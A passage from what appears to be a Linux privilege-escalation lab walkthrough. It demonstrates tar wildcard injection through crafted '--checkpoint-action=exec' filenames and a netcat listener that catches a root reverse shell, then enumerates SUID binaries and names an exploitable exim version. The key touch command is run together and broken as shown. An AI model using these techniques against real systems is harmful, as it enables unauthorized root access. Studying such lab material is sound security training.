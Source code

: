 Create these two files in /home/user:

```bash
touch /home/user/--checkpoint=1touch /home/user/--checkpoint-action=exec=shell.elf
```

When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run. A root shell should connect back to your netcat listener.

```bash
nc -nvlp 4444
```

# Task 11 SUID / SGID Executables - Known Exploits

---

```bash
user@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwsr-sr-x 1 root root 926536 Sep  8 01:42 /tmp/rootbash
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
```

### /usr/sbin/exim-4.84-3 appears in the results. Here is an exploit for it

---